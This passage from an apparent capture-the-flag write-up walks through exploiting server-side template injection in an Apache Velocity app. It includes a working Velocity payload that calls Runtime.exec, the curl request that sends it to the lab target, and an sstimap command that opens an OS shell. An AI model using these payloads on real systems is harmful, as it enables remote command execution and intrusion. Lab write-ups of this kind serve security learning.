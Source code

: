 ```java
        }
    } finally {
        if (bufferedReader != null) {
            try {
                bufferedReader.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

    return content.toString();
}
```

So, we definitely are replacing the the word `TEXT` with the our input. And later on this code was processed here: 
```java
org.apache.velocity.Template t = new org.apache.velocity.Template();
t.setRuntimeServices(runtimeServices);
try {

  t.setData(runtimeServices.parse(reader, "home"));
  t.initDocument();
  VelocityContext context = new VelocityContext();
  context.put("name", "World");

  StringWriter writer = new StringWriter();
  t.merge(context, writer);
  template = writer.toString();

} catch (ParseException e) {
  e.printStackTrace();
}
```

At first i confirmed the injection by providing the `$name` value to the `text` parameter and it replaced it with `world`. Now, doing a bit of googling, i discovered a `CVE` for this specific version of `Velocity`.
I used the following payload with the name param
```
#set($e="e");$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("whoami")
```

I used curl to execute the payload and got the right execution: 
```bash
curl.exe 'http://94.237.49.166:35229/' -X POST --data-raw 'text=%23set($e=%22e%22);$e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22whoami%22)'
```

However, i had a hard time getting the flag since i wasn't able to get a reverse shell or place some special characters in the command. This seemed like a dead end for a second. But then i fired up `sstimap` against it. 
And to my surprise i was able to get an OS Shell directly without having to do the CVE exploit: 
```
python3 sstimap.py --url http://94.237.49.166:35229/ -f --os-shell --engine velocity
```
